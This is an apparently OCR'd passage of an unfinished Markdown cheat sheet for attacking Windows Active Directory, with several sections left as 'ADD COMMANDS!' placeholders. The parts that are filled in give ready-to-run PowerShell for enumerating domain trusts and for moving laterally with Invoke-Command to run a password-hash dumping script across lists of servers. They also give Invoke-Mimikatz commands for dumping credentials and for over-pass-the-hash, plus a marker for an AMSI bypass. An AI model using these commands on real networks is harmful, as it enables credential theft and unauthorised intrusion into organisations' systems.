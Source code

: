 ```powershell
Get-NetForestTrust -Forest domain.local
Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'
```
- List external trusts
```powershell
Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
```
if Bi-Directional trust we can extract information
--------------------------------------------------------------------------------------------------------------------------------------------
### Local Privilege Escalation
```powershell
ADD COMMANDS!
```
--------------------------------------------------------------------------------------------------------------------------------------------
### Local Account Stealing
```powershell
ADD COMMANDS!
```
--------------------------------------------------------------------------------------------------------------------------------------------
### Monitor Potential Incoming Account
```powershell
ADD COMMANDS!
```
--------------------------------------------------------------------------------------------------------------------------------------------
### Admin Recon
```powershell
ADD COMMANDS!
```
--------------------------------------------------------------------------------------------------------------------------------------------
### Lateral Movement
```powershell
# PowerShell Remoting
- Execute commands or scriptblocks
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
- Execute scripts from files
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
- Execute locally loaded function on the remote machines
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
- A function call within the script is used
Invoke-Command -Filepath C:\path\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
- "Stateful" commands using Invoke-Command
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
- Dump credentials on a local machine
Invoke-Mimikatz -DumpCreds
- Dump credentials on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
- Over pass the hash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:lab.domain.local /ntlm:<ntlmhash> /run:powershell.exe"'
- Invoke Mimikatz to create a token from user
$sess = New-PSSession -ComputerName target.domain.local
Enter-PSSession $sess
# EP BYPASS + AMSI BYPASS
exit
# PUSH LOCAL SCRIPT TO SESSION
```